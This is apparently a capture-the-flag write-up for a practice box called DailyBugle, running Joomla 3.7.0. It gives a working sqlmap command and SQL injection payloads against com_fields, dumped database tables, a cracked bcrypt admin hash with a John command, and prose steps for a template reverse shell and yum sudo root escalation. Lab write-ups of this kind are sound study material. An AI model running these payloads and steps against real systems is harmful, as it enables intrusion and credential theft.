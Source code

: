 # DailyBugle

**CTF Domain: DailyBugle.ctf**

## Scans

```rustscan -a DailyBugle.ctf```


## Eumeration

http://dailybugle.ctf/README.txt - States Joomla version 3.7.0

Searchsploit:
```
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
Joomla! 3.7 - SQL Injection                                                          | php/remote/44227.php
Joomla! 3.7.0 - 'com_fields' SQL Injection                                           | php/webapps/42033.txt
Joomla! Component ARI Quiz 3.7.4 - SQL Injection                                     | php/webapps/46769.txt
Joomla! Component com_realestatemanager 3.7 - SQL Injection                          | php/webapps/38445.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting                        | php/webapps/43488.txt
Joomla! Component J2Store < 3.3.7 - SQL Injection                                    | php/webapps/46467.txt
Joomla! Component JomEstate PRO 3.7 - 'id' SQL Injection                             | php/webapps/44117.txt
Joomla! Component Jtag Members Directory 5.3.7 - Arbitrary File Download             | php/webapps/43913.txt
Joomla! Component Quiz Deluxe 3.7.4 - SQL Injection                                  | php/webapps/42589.txt
```

com_fields POC (php/webapps/42033.txt) gives an SQLmap command: `sqlmap -u "http://dailybugle.ctf/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]`

dailybugle.ctf/web.config.txt - Seems to patch the vulnerability in that specific url?

Nope SQLMap runs fine:
```
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 9128 FROM(SELECT COUNT(*),CONCAT(0x717a787871,(SELECT (ELT(9128=9128,1))),0x7170767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 7225 FROM (SELECT(SLEEP(5)))dUNc)
```
```
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
```
```
Database: mysql
[24 tables]
+---------------------------+
| user                      |
| columns_priv              |
| db                        |
| event                     |
| func                      |
| general_log               |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| host                      |
| ndb_binlog_index          |
| plugin                    |
| proc                      |
| procs_priv                |
| proxies_priv              |
| servers                   |
| slow_log                  |
| tables_priv               |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
+---------------------------+
```
```
Database: joomla
[72 tables]
+----------------------------+
| #__assets                  |
| #__associations            |
| #__banner_clients          |
| #__banner_tracks           |
| #__banners                 |
| #__categories              |
| #__contact_details         |
| #__content_frontpage       |
| #__content_rating          |
| #__content_types           |
| #__content                 |
| #__contentitem_tag_map     |
| #__core_log_searches       |
| #__extensions              |
| #__fields_categories       |
| #__fields_groups           |
| #__fields_values           |
| #__fields                  |
| #__finder_filters          |
| #__finder_links_terms0     |
| #__finder_links_terms1     |
| #__finder_links_terms2     |
| #__finder_links_terms3     |
| #__finder_links_terms4     |
| #__finder_links_terms5     |
| #__finder_links_terms6     |
| #__finder_links_terms7     |
| #__finder_links_terms8     |
| #__finder_links_terms9     |
| #__finder_links_termsa     |
| #__finder_links_termsb     |
| #__finder_links_termsc     |
| #__finder_links_termsd     |
| #__finder_links_termse     |
| #__finder_links_termsf     |
| #__finder_links            |
| #__finder_taxonomy_map     |
| #__finder_taxonomy         |
| #__finder_terms_common     |
| #__finder_terms            |
| #__finder_tokens_aggregate |
| #__finder_tokens           |
| #__finder_types            |
| #__languages               |
| #__menu_types              |
| #__menu                    |
| #__messages_cfg            |
| #__messages                |
| #__modules_menu            |
| #__modules                 |
| #__newsfeeds               |
| #__overrider               |
| #__postinstall_messages    |
| #__redirect_links          |
| #__schemas                 |
| #__session                 |
| #__tags                    |
| #__template_styles         |
| #__ucm_base                |
| #__ucm_content             |
| #__ucm_history             |
| #__update_sites_extensions |
| #__update_sites            |
| #__updates                 |
| #__user_keys               |
| #__user_notes              |
| #__user_profiles           |
| #__user_usergroup_map      |
| #__usergroups              |
| #__users                   |
| #__utf8_conversion         |
| #__viewlevels              |
+----------------------------+
```

```
current user: 'root@localhost'
```

Possible root password? SHA1 Hashed: B04E65424026AC47B5626445B67352EBEFD78828

Cracked = `¡Vamos!` ???

Joomla Users table:
```
Database: joomla
Table: #__users
[1 entry]
+------------+----------+--------------------------------------------------------------+
| name       | username | password                                                     |
+------------+----------+--------------------------------------------------------------+
| Super User | jonah    | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
+------------+----------+--------------------------------------------------------------+
```

Crack it with John: `john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt jonah_password.hash`

Jonah's cracked password: `spiderman123`!


## Exploitation

Great writeup of Joomla reverse shell: https://www.hackingarticles.in/joomla-reverse-shell/

Logging into the Joomla admin panel (/administrator) gives us access to the site templates

Get a simple PHP reverse shell, edit it for our needs

Copy and paste it into the index.php of the active template

And we have a reverse shell!

User is apache though, and I cannot find a user flag...

Guessing we have to switch to jjameson to get the flag

There's a root password in configuration.php that has a password in it

That password works on jjamesons SSH!


## Privilege Escalation

Very easy but cool privesc path

Linpeas shows we can run yum as sudo

https://gtfobins.github.io/gtfobins/yum/

Copy/pasting the commands from GTFObins gives us command execution as root

Just needed to install RPM onto my system for it to work

Then wrote a simple privesc shell script that created a bash reverse shell to my system

Compiling the script into a package and installing it gives us a root shell!!!
